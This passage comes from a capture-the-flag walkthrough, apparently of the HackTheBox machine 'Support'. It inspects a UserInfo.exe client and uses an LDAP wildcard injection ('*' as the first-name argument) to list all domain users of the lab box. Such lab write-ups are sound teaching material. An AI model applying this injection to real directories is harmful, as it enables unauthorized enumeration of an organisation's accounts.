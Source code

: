     PS > .\UserInfo.exe user -username 0xdf
    [-] Exception: The server is not operational.
    

#### Network

Given the mention of the server, I’ll open Wireshark and run it again. It’s
looking for `support.htb`:

![image-20221214163800723](https://0xdfimages.gitlab.io/img/image-20221214163800723.png)

I’ll update `C:\Windows\System32\drivers\etc\hosts` just like on Linux, and
connect my VPN in this Windows host so that I can talk to Support. Now it
reports that it can’t find my username:

    
    
    PS > .\UserInfo.exe user -username 0xdf
    [-] Unable to locate 0xdf. Please try the find command to get the user's username.
    

`find` requires either `-first` or `-last`:

    
    
    PS > .\UserInfo.exe -v find
    [-] At least one of -first or -last is required.
    PS > .\UserInfo.exe find -first john
    [-] No users identified with that query.
    

With `-v`, it prints the LDAP query it’s using:

    
    
    PS > .\UserInfo.exe -v find -first john
    [*] LDAP query to use: (givenName=john)
    [-] No users identified with that query.
    

I can do some basic LDAP injection and get all users with a first name:

    
    
    PS > .\UserInfo.exe find -first '*'
    raven.clifton
    anderson.damian
    monroe.david
    cromwell.gerard
    west.laura
    levine.leopoldo
    langley.lucy
    daughtler.mabel
    bardot.mary
    stoll.rachelle
    thomas.raphael
    smith.rosario
    wilson.shelby
    hernandez.stanley
    ford.victoria
    